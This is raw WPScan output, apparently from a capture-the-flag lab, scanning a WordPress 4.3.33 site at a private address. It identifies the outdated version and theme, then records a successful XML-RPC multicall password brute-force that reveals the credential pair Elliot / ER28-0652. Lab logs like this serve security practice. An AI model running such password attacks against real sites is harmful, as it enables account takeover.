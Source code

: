 ```bash

[+] WordPress version 4.3.33 identified (Outdated, released on 2024-01-30).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.0.1.14/10f4216.html, Match: '-release.min.js?ver=4.3.33'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.0.1.14/10f4216.html, Match: 'WordPress 4.3.33'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.0.1.14/wp-content/themes/twentyfifteen/
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://10.0.1.14/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.7
 | Style URL: http://10.0.1.14/wp-content/themes/twentyfifteen/style.css?ver=4.3.33
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.0.1.14/wp-content/themes/twentyfifteen/style.css?ver=4.3.33, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <==============================================================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 01:13:11 <==============================================================================================> (1716 / 1716) 100.00% Time: 01:13:11
WARNING: Your progress bar is currently at 1716 out of 1716 and cannot be incremented. In v2.0.0 this will become a ProgressBar::InvalidProgressError.
Progress Time: 01:13:12 <==============================================================================================> (1716 / 1716) 100.00% Time: 01:13:12
[SUCCESS] - Elliot / ER28-0652                                                                                                                               
All Found                                                                                                                                                    

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Apr 30 13:41:25 2024
[+] Requests Done: 1905
[+] Cached Requests: 6
[+] Data Sent: 614.655 KB
[+] Data Received: 197.181 MB
[+] Memory used: 379.234 MB
[+] Elapsed time: 01:13:32
```